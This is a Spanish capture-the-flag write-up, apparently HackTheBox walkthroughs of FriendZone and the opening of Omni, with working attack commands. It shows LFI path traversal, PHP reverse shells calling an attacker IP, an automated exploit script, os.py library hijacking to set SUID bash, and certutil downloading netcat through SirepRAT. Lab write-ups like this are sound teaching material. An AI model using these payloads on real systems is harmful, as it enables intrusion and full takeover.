\hypertarget{enumeracion-42}{%
\section*{Enumeracion}\label{enumeracion-42}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-42}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-42}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-42}{%
\subsubsection*{Ping}\label{ping-42}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.123}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-42}{%
\subsubsection*{Nmap}\label{nmap-42}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.123}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.123 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,22,53,80,139,443,445 10.10.10.123 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Conneccion como anonymous &\tabularnewline
22 & tcp & Conneccion directa & creds\tabularnewline
53 & domain & axfr attack & ip y domain\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
139 & Samba & Coneccion con null session &\tabularnewline
443 & https & Web, Fuzzing &\tabularnewline
445 & Samba & Coneccion con null session &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{coneccion-ftp-como-anonymous}{%
\subsection*{Coneccion ftp como anonymous}\label{coneccion-ftp-como-anonymous}}
\addcontentsline{toc}{subsection}{Coneccion ftp como anonymous}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.123}
\ExtensionTok{Name}\NormalTok{: anonymous}
\ExtensionTok{Password}\NormalTok{: }
\CommentTok{#Output}
\ExtensionTok{Login}\NormalTok{ failed}
\end{Highlighting}
\end{Shaded}

\hypertarget{checkeamos-el-certificado-ssl}{%
\subsection*{Checkeamos el certificado ssl}\label{checkeamos-el-certificado-ssl}}
\addcontentsline{toc}{subsection}{Checkeamos el certificado ssl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ s_client -connect 10.10.10.123:443}
\end{Highlighting}
\end{Shaded}

Aqui vemos un un correo \texttt{haha@friendzone.red}. Añadimos el dominio friendzone.red al \texttt{/etc/hosts}.

\hypertarget{analyzando-la-web-25}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-25}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-32}{%
\subsubsection*{Whatweb}\label{whatweb-32}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.123}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.29 en un Ubuntu y podemos ver un nuevo dominio \texttt{friendzoneportal.red} que añadimos al \texttt{/etc/hosts}.

\hypertarget{checkear-la-web-9}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-9}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{https://10.10.10.123}, No vemos gran cosas.
Si vamos por la url \texttt{https://friendzone.red} vemos una nueva web, mirando el codigo fuente, vemos un comentario sobre un directorio
\texttt{/js/js} y si vamos por la url \texttt{https://friendzone.red/js/js} vemos una especie de hash en base64 que intentamos romper con el comando
\texttt{echo\ "MTZaVFhRMDBrSTE2MzUxMDgwMzRieUxPVHlmdGkz"\ \textbar{}\ base64\ -d\ \textbar{}\ base64\ -d} pero no nos da gran cosa. Si miramos la url \texttt{https://friendzoneportal.red},
vemos otra imagen pero tampoco vemos gran cosa en este caso.

\hypertarget{analyzando-el-samba}{%
\subsection*{Analyzando el SAMBA}\label{analyzando-el-samba}}
\addcontentsline{toc}{subsection}{Analyzando el SAMBA}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.123}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.123 -N}
\end{Highlighting}
\end{Shaded}

Aqui el \textbf{smbclient} nos dice que estamos frente una maquina Windows 6.1 aun que sabemos que la maquina victima es un linux.

Vemos recursos compartidos a nivel de red como:

\begin{itemize}
\tightlist
\item
  print\$
\item
  Files
\item
  general
\item
  Development
\item
  IPC\$
\end{itemize}

Usando de la heramienta smbmap, podemos ver si tenemos accessos a estos recursos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.123}
\end{Highlighting}
\end{Shaded}

y vemos que denemos accesso con derecho de lectura al directorio \texttt{general} y derechos de lectura y escritura al directorio \texttt{development}.
Vamos a conectarnos para ver lo que hay por estos registros

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.123/general -N}
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Vemos un fichero creds.txt y nos lo descargamos con el commando \texttt{get\ creds.txt}.

Miramos si nos podemos conectar con \texttt{ssh\ admin@10.10.10.123} pero no podemos y miramos si tenemos accesso a mas registros.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.123 -u }\StringTok{'admin'}\NormalTok{ -p }\StringTok{'WORKWORKHhallelujah@#'}
\end{Highlighting}
\end{Shaded}

\hypertarget{ataque-de-transferencia-de-zona-con-dig-1}{%
\subsection*{Ataque de transferencia de zona con Dig}\label{ataque-de-transferencia-de-zona-con-dig-1}}
\addcontentsline{toc}{subsection}{Ataque de transferencia de zona con Dig}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.123 friendzone.red}
\ExtensionTok{dig}\NormalTok{ @10.10.10.123 friendzone.red ns}
\ExtensionTok{dig}\NormalTok{ @10.10.10.123 friendzone.red mx}
\ExtensionTok{dig}\NormalTok{ @10.10.10.123 friendzone.red axfr}
\end{Highlighting}
\end{Shaded}

El ataque de transferencia de zone nos permite ver una serie de subdominios como.

\begin{itemize}
\tightlist
\item
  administrator1.friendzone.red
\item
  hr.friendzone.red
\item
  uploads.friendzone.red
\end{itemize}

los introducimos en el \texttt{/etc/hosts} y lo analyzamos en firefox.

\hypertarget{checkeamos-los-nuevos-dominios}{%
\subsection*{Checkeamos los nuevos dominios}\label{checkeamos-los-nuevos-dominios}}
\addcontentsline{toc}{subsection}{Checkeamos los nuevos dominios}

Podemos ver que el \texttt{https://hr.friendzone.red} no nos muestra nada.
La url \texttt{https://uploads.friendzone.red} nos envia a una pagina donde podemos uploadear imagenes y la url
\texttt{https://administrator1.friendzone.red} nos muestra un panel de inicio de session.

Como hemos encontrado credenciales con smb, intentamos conectarnos desde el panel de inicio de session y estas credenciales son validas.

Aqui vemos que existe un fichero \texttt{dashboard.php}. Si vamos a la url \texttt{https://administrator1.friendzone.red/dashboard.php}, tenemos un mensaje que
dice que el falta el parametro image\_name y que por defecto, necesitamos poner \texttt{image\_id=a\&pagename=timestamp}. Intentamos la url siguiente:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{timestamp}
\end{Highlighting}
\end{Shaded}

Aqui nos aparece una nueva pagina. Nos llama la atencion el parametro pagename y intentamos cosas

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{timestamp}
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{timestam}
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{dashboard.php}
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{dashboard}
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{/../../../../../etc/passwd}
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{/../../../../../etc/passwd%00}
\end{Highlighting}
\end{Shaded}

Aqui hemos constatado que podemos injectar una pagina de la web en esta misma pagina y que no se necessita poner la extension que la pagina añade
\texttt{.php} por si sola. Es por esto que no se puede ver el \texttt{/etc/passwd} porque añade un \texttt{.php} al final.

\hypertarget{vulnerability-assessment-29}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-29}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{subiendo-ficheros-por-smb}{%
\subsection*{Subiendo ficheros por smb}\label{subiendo-ficheros-por-smb}}
\addcontentsline{toc}{subsection}{Subiendo ficheros por smb}

Cuando hemos mirado los registros compartidos a nivel de red con smbmap, hemos constatado que teniamos derechos de lectura
y de escritura al registro Development. Y esta enumeracion nos a monstrado que el registro Files esta bindeada al directorio
\texttt{/etc/Files}. Esto no hace pensar que si subimos ficheros al registro \texttt{Development}, puede que sea finalmente bindeada al directorio
\texttt{/etc/Development}.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un fichero php de prueba

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \KeywordTok{echo} \StringTok{"Esto es una prueba..."}\OtherTok{;}
    \FunctionTok{system}\OtherTok{(}\StringTok{"whoami"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\item
  Con smbclient, subimos el fichero

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ test.php}
\end{Highlighting}
\end{Shaded}
\item
  En el dashboard, intentamos ver si vemos la pagina

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{/../../../../../etc/Development/test}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Esto nos muestra que podemos ejecutar commandos a nivel de systema.

\hypertarget{vuln-exploit-gaining-access-29}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-29}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-un-un-lfi}{%
\subsection*{Ganando accesso con un un LFI}\label{ganando-accesso-con-un-un-lfi}}
\addcontentsline{toc}{subsection}{Ganando accesso con un un LFI}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un fichero reverse.php

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \FunctionTok{system}\OtherTok{(}\StringTok{"bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\item
  Con smbclient, subimos el fichero

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ reverse.php}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En el dashboard, intentamos ver si vemos la pagina

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{https}\NormalTok{://administrator1.friendzone.red/dashboard.php?image_id=a}\KeywordTok{&}\VariableTok{pagename=}\NormalTok{/../../../../../etc/Development/reverse}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya hemos ganado acceso al systema.

\hypertarget{tratamiento-de-la-tty-24}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-24}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{creando-un-autopwn-en-python}{%
\subsection*{Creando un autopwn en python}\label{creando-un-autopwn-en-python}}
\addcontentsline{toc}{subsection}{Creando un autopwn en python}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ urllib3}
\ImportTok{import}\NormalTok{ urllib}

\ImportTok{from}\NormalTok{ smb.SMBHandler }\ImportTok{import}\NormalTok{ SMBHandler}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}

    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{login_url }\OperatorTok{=} \StringTok{"https://administrator1.friendzone.red/login.php"}
\NormalTok{rce_url }\OperatorTok{=} \StringTok{"https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/reverse"}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ getCreds():}
\NormalTok{    opener }\OperatorTok{=}\NormalTok{ urllib.request.build_opener(SMBHandler)}
\NormalTok{    fh }\OperatorTok{=}\NormalTok{ opener.}\BuiltInTok{open}\NormalTok{(}\StringTok{'smb://10.10.10.123/general/creds.txt'}\NormalTok{)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ fh.read()}
\NormalTok{    fh.close()}

\NormalTok{    data }\OperatorTok{=}\NormalTok{ data.decode(}\StringTok{'utf-8'}\NormalTok{)}
\NormalTok{    username }\OperatorTok{=}\NormalTok{ re.findall(}\VerbatimStringTok{r'(.*?):'}\NormalTok{, data)[}\DecValTok{1}\NormalTok{]}
\NormalTok{    password }\OperatorTok{=}\NormalTok{ re.findall(}\VerbatimStringTok{r':(.*)'}\NormalTok{, data)[}\DecValTok{1}\NormalTok{]}

    \ControlFlowTok{return}\NormalTok{ username, password}

\KeywordTok{def}\NormalTok{ makeRequest(username, password):}

\NormalTok{    urllib3.disable_warnings()}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ requests.session()}
\NormalTok{    s.verify }\OperatorTok{=} \VariableTok{False}

\NormalTok{    data_post }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'username'}\NormalTok{: username,}
        \StringTok{'password'}\NormalTok{: password}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ s.post(login_url, data}\OperatorTok{=}\NormalTok{data_post)}

\NormalTok{    os.system(}\StringTok{"mkdir /mnt/montura"}\NormalTok{)}
\NormalTok{    os.system(}\StringTok{'mount -t cifs //10.10.10.123/Development /mnt/montura -o username="null",password="null",domain="WORKGROUP",rw'}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}
\NormalTok{    os.system(}\StringTok{"echo }\CharTok{\textbackslash{}"}\StringTok{<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f'); ?>}\CharTok{\textbackslash{}"}\StringTok{ > /mnt/montura/reverse.php"}\NormalTok{)}
\NormalTok{    os.system(}\StringTok{"umount /mnt/montura"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}
\NormalTok{    os.system(}\StringTok{"rm -r /mnt/montura"}\NormalTok{)}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ s.get(rce_url)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    username, password }\OperatorTok{=}\NormalTok{ getCreds()}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{(username, password)).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{20}\NormalTok{).wait_for_connection()}

\NormalTok{    shell.interactive()}
\end{Highlighting}
\end{Shaded}

\hypertarget{userpivoting-1}{%
\subsection*{Userpivoting}\label{userpivoting-1}}
\addcontentsline{toc}{subsection}{Userpivoting}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"sh$"}\NormalTok{ /etc/passwd}
\BuiltInTok{pwd}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{cat}\NormalTok{ mysql_data.conf}
\end{Highlighting}
\end{Shaded}

Vemos la contraseña del usuario friend y nos podemos convertir con el comando \texttt{su\ friend} y leer la flag.

\hypertarget{privilege-escalation-26}{%
\section*{Privilege Escalation}\label{privilege-escalation-26}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-35}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-35}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{uname}\NormalTok{ -a}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

No vemos nada interesante por aqui. Miramos si existen tareas que se ejecutan a interval regulares de tiempo.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /dev/shm/}
\FunctionTok{nano}\NormalTok{ procmon.sh}


\CommentTok{#!/bin/bash}

\VariableTok{old_process=$(}\FunctionTok{ps}\NormalTok{ -eo command}\VariableTok{)}

\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do}
    \VariableTok{new_process=$(}\FunctionTok{ps}\NormalTok{ -eo command}\VariableTok{)}
    \FunctionTok{diff} \OperatorTok{<(}\BuiltInTok{echo} \StringTok{"}\VariableTok{$old_process}\StringTok{"}\OperatorTok{)} \OperatorTok{<(}\BuiltInTok{echo} \StringTok{"}\VariableTok{$new_process}\StringTok{"}\OperatorTok{)} \KeywordTok{|} \FunctionTok{grep} \StringTok{"[\textbackslash{}>\textbackslash{}<]"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -E }\StringTok{"procmon|command"}
    \VariableTok{old_process=$new_process}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Le damos derechos de ejecucion y lo lanzamos. Si esperamos un poco, podemos ver que hay una tarea que se ejecuta lanzando un script
en python.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /opt/server_admin/reporter.py}
\FunctionTok{cat}\NormalTok{ /opt/server_admin/reporter.py}
\end{Highlighting}
\end{Shaded}

Vemos que no lo podemos tocar.

\hypertarget{library-hijacking}{%
\subsubsection*{Library Hijacking}\label{library-hijacking}}
\addcontentsline{toc}{subsubsection}{Library Hijacking}

Vemos que el script no hace nada en concreto. Solo importa la libreria os y almacena dos variables y le hace un print.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Miramos el orden de busqueda del import de python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}
\OperatorTok{>} \ExtensionTok{import}\NormalTok{ sys}
\ExtensionTok{print}\NormalTok{ sys.path}
\end{Highlighting}
\end{Shaded}

  Aqui vemos que busca primeramente en el directorio actual de trabajo y despues en \texttt{/usr/lib/python2.7/sys.py}
\item
  Miramos nuestros derechos en la carpeta \texttt{/usr/lib/python2.7}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ os.py}
\FunctionTok{ls}\NormalTok{ -l /usr/lib/ }\KeywordTok{|} \FunctionTok{grep} \StringTok{"python2.7"}
\end{Highlighting}
\end{Shaded}

  Vemos que tenemos todo los derechos en esta carpeta
\item
  Alteramos el fichero os.py

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /usr/lib/python2.7}
\FunctionTok{nano}\NormalTok{ os.py}
\end{Highlighting}
\end{Shaded}

  Al final de este fichero, añadimos el comando siguiente

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{system(}\StringTok{"chmod 4755 /bin/bash"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\item
  Monitorizamos la /bin/bash

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{watch}\NormalTok{ -n 1 ls -l /bin/bash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Vemos que aparece un \texttt{s} en la /bin/bash

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}

Ya podemos leer el root.txt

\hypertarget{omni}{%
\chapter*{Omni}\label{omni}}
\addcontentsline{toc}{chapter}{Omni}

\hypertarget{introduccion-43}{%
\section*{Introduccion}\label{introduccion-43}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Omni.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=N9GVMEW62Qg}{\includegraphics{https://img.youtube.com/vi/N9GVMEW62Qg/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-43}{%
\section*{Enumeracion}\label{enumeracion-43}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-43}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-43}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-43}{%
\subsubsection*{Ping}\label{ping-43}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.204}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-43}{%
\subsubsection*{Nmap}\label{nmap-43}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.204}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.204 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p135,5985,8080,29817,29819,29820 10.10.10.204 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
135 & msrpc & rpcclient con nul session &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
8080 & http & Web Fuzzing &\tabularnewline
29817 & msrpc & Puertos por defecto de windows &\tabularnewline
29819 & msrpc & Puertos por defecto de windows &\tabularnewline
29820 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-26}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-26}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-33}{%
\subsubsection*{Whatweb}\label{whatweb-33}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.204:8080}
\end{Highlighting}
\end{Shaded}

Es un Windows Device Portal con un HTTPapi y un WWW-Athentication.

\hypertarget{checkear-la-web-10}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-10}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.204:8080}, Vemos un panel basic authentication.

\hypertarget{checkeando-la-cavezera-con-curl}{%
\subsubsection*{Checkeando la cavezera con curl}\label{checkeando-la-cavezera-con-curl}}
\addcontentsline{toc}{subsubsection}{Checkeando la cavezera con curl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.204:8080"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.204:8080"}\NormalTok{ -I}
\end{Highlighting}
\end{Shaded}

Vemos en la cabezera que el basic-auth es sobre un \texttt{Windows\ Device\ Portal}
Buscamos si existe una vulnerabilidad asociada en google poniendo \texttt{Windows\ Device\ Portal\ github\ exploit} y encontramos
una pagina interesante de \href{https://github.com/SafeBreach-Labs/SirepRAT}{SirepRAT} que nos permitiria ejecutar RCE.

\hypertarget{vulnerability-assessment-30}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-30}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{windows-device-portal}{%
\subsection*{Windows Device Portal}\label{windows-device-portal}}
\addcontentsline{toc}{subsection}{Windows Device Portal}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/SafeBreach-Labs/SirepRAT}
\BuiltInTok{cd}\NormalTok{ SirepRAT}
\ExtensionTok{python3}\NormalTok{ setup.py install}
\ExtensionTok{pip}\NormalTok{ install -r requirements.txt}

\ExtensionTok{python3}\NormalTok{ SirepRAT.py}
\end{Highlighting}
\end{Shaded}

Intentamos leer un archivo de la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path }\StringTok{"C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}drivers\textbackslash{}etc\textbackslash{}hosts"}\NormalTok{ --v}
\end{Highlighting}
\end{Shaded}

Aqui vemos que podemos leer archivos del systema. Intentamos ejecutar comandos.

Nos ponemos en escucha por trasa ICMP

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}

y ejecutamos el comando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd }\StringTok{"C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe"}\NormalTok{ --args }\StringTok{" /c ping 10.10.14.8"}\NormalTok{ --v}
\end{Highlighting}
\end{Shaded}

Aqui vemos que recibimos la traza y que tenemos capacidad de ejecucion remota de comando.

\hypertarget{vuln-exploit-gaining-access-30}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-30}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-sireprat}{%
\subsection*{Ganando accesso con SirepRAT}\label{ganando-accesso-con-sireprat}}
\addcontentsline{toc}{subsection}{Ganando accesso con SirepRAT}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Descargamos nc64

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe}
\end{Highlighting}
\end{Shaded}
\item
  Creamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos descargar el binario desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd }\StringTok{"C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe"}\NormalTok{ --args }\StringTok{" /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}nc64.exe"}\NormalTok{ --v}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

